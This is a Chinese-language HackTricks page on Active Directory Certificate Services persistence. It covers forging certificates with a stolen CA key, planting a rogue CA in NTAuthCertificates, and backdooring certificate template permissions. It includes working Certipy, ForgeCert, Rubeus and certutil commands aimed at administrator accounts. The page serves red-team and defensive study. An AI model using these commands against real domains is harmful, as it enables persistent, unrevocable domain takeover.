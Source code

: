 # AD CS 域持久性

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS 红队专家）</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想看到您的**公司在 HackTricks 中做广告**或**下载 PDF 版的 HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 探索[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFT](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或在 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** 上**关注我。
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>

**这是在 [https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf](https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf) 中分享的持久性技术摘要**。查看以获取更多详细信息。

## 使用窃取的 CA 证书伪造证书 - DPERSIST1

如何判断证书是否为 CA 证书？

如果满足以下几个条件，则可以确定证书是 CA 证书：

- 证书存储在 CA 服务器上，其私钥由机器的 DPAPI 或硬件（如 TPM/HSM，如果操作系统支持）安全保护。
- 证书的颁发者和主题字段与 CA 的专有名称匹配。
- CA 证书中独占存在“CA 版本”扩展。
- 证书缺少扩展密钥用途（EKU）字段。

要提取此证书的私钥，CA 服务器上的 `certsrv.msc` 工具是通过内置 GUI 支持的方法。然而，此证书与系统中存储的其他证书无异；因此，可以应用[THEFT2 技术](certificate-theft.md#user-certificate-theft-via-dpapi-theft2)等方法进行提取。

还可以使用 Certipy 获取证书和私钥，命令如下：
```bash
certipy ca 'corp.local/administrator@ca.corp.local' -hashes :123123.. -backup
```
在获取了以 `.pfx` 格式保存的 CA 证书及其私钥后，可以利用类似 [ForgeCert](https://github.com/GhostPack/ForgeCert) 的工具生成有效证书：
```bash
# Generating a new certificate with ForgeCert
ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123! --Subject "CN=User" --SubjectAltName localadmin@theshire.local --NewCertPath localadmin.pfx --NewCertPassword Password123!

# Generating a new certificate with certipy
certipy forge -ca-pfx CORP-DC-CA.pfx -upn administrator@corp.local -subject 'CN=Administrator,CN=Users,DC=CORP,DC=LOCAL'

# Authenticating using the new certificate with Rubeus
Rubeus.exe asktgt /user:localdomain /certificate:C:\ForgeCert\localadmin.pfx /password:Password123!

# Authenticating using the new certificate with certipy
certipy auth -pfx administrator_forged.pfx -dc-ip 172.16.126.128
```
{% hint style="warning" %}
针对证书伪造的用户必须是活跃的，并且能够在Active Directory中进行身份验证，才能成功进行该过程。对于像krbtgt这样的特殊帐户伪造证书是无效的。
{% endhint %}

这个伪造的证书将**有效**直到指定的结束日期，并且只要根CA证书有效（通常为5到**10年以上**）。它也适用于**机器**，因此结合**S4U2Self**，攻击者可以在CA证书有效的情况下在任何域机器上**保持持久性**。\
此外，使用此方法生成的**证书**是**无法吊销**的，因为CA不知道它们的存在。

## 信任恶意CA证书 - DPERSIST2

`NTAuthCertificates`对象被定义为在其`cacertificate`属性中包含一个或多个**CA证书**，Active Directory（AD）使用这些证书。域控制器的验证过程涉及检查`NTAuthCertificates`对象，以查找与认证**证书**的Issuer字段中指定的**CA**匹配的条目。如果找到匹配项，则进行身份验证。

攻击者可以将自签名的CA证书添加到`NTAuthCertificates`对象中，前提是他们控制了这个AD对象。通常，只有**企业管理员**组的成员，以及**域管理员**或**林根域的管理员**被授予权限修改此对象。他们可以使用`certutil.exe`编辑`NTAuthCertificates`对象，命令为`certutil.exe -dspublish -f C:\Temp\CERT.crt NTAuthCA126`，或者使用[**PKI Health Tool**](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/import-third-party-ca-to-enterprise-ntauth-store#method-1---import-a-certificate-by-using-the-pki-health-tool)。

当与先前概述的使用ForgeCert动态生成证书的方法结合使用时，这种能力尤为重要。

## 恶意配置错误 - DPERSIST3

通过对AD CS组件的安全描述符进行修改，可以提供大量**持久性**机会。在"[域提升](domain-escalation.md)"部分描述的修改可以被具有提升访问权限的攻击者恶意实施。这包括向敏感组件（例如**CA服务器的AD计算机**对象、CA服务器的RPC/DCOM服务器、`CN=Public Key Services,CN=Services,CN=Configuration,DC=<DOMAIN>,DC=<COM>`中的任何后代AD对象或容器（例如证书模板容器、证书颁发机构容器、NTAuthCertificates对象等）、默认或组织授予控制AD CS权限的**AD组**（例如内置的Cert Publishers组及其任何成员））添加“控制权限”（例如WriteOwner/WriteDACL等）的机会。

恶意实施的一个例子是，攻击者在域中具有**提升权限**，向默认的**`User`**证书模板添加**`WriteOwner`**权限，并将自己设置为权限的主体。为了利用这一点，攻击者首先会将**`User`**模板的所有权更改为自己。随后，在模板上将**`mspki-certificate-name-flag`**设置为**1**，以启用**`ENROLLEE_SUPPLIES_SUBJECT`**，允许用户在请求中提供主题备用名称。随后，攻击者可以使用**模板**进行**注册**，选择一个**域管理员**名称作为备用名称，并利用获得的证书进行DA身份验证。
